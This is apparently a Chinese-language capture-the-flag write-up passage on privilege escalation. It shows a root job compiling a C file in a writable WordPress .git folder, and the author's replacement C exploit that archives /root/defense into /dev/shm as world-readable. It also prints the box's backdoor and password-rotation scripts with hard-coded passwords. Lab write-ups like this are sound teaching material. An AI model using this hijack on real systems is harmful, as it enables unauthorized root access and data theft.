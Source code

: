 3. `/usr/lib/gcc/x86_64-linux-gnu/9/cc1 -quiet -imultiarch x86_64-linux-gnu /var/www/wordpress/.git/supersecretfileuc.c`

4. `/usr/bin/gcc /var/www/wordpress/.git/supersecretfileuc.c -o /var/www/wordpress/.git/rev`

5. `/bin/sh -c /usr/bin/bash /root/defense/change_pass.sh`

6. `/usr/bin/bash /root/defense/kill_sess.sh`

重点关注`/var/www/wordpress/.git/`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201161757778.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201161958973.png)

由于空间不足,把exp放在`/dev/shm`中,用`ln -s`连接

```cpp
#include <stdio.h>
#include <stdlib.h>
int main()
{
    system("tar -czvf /dev/shm/root.tar /root/defense");
    system("chmod 777 /dev/shm/root.tar");
    return 0;
}
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201162025582.png)

backdoor.sh

```bash
#!/bin/bash

/usr/bin/gcc /var/www/wordpress/.git/supersecretfileuc.c -o /var/www/wordpress/.git/rev && /var/www/wordpress/.git/./rev
```

change_pass.sh

```bash
#!/bin/bash
n=$((1 + $RANDOM % 7))

if [ $n -eq 1 ]; then
        echo "john:R3v_m4lwh3r3_k1nG!!0" | /usr/sbin/chpasswd

elif [ $n -eq 2 ]; then
        echo "john:!!Gn1k_3r3hwl4m_v3R" | /usr/sbin/chpasswd

elif [ $n -eq 3 ]; then
        echo "john:R3v_m4lwh3r3_k1nG!!6" | /usr/sbin/chpasswd

elif [ $n -eq 4 ]; then
        echo "john:R3v_m4lwh3r3_k1nG!!00" | /usr/sbin/chpasswd

elif [ $n -eq 5 ]; then
        echo "john:r3v_m4lwh3r3_k1nG!!" | /usr/sbin/chpasswd

elif [ $n -eq 6 ]; then
        echo "john:R3v_m4lwh3r3_k1nG!!02" | /usr/sbin/chpasswd

else
        echo "john:R3v_m4lwh3r3_k1nG!!21" | /usr/sbin/chpasswd

fi
```
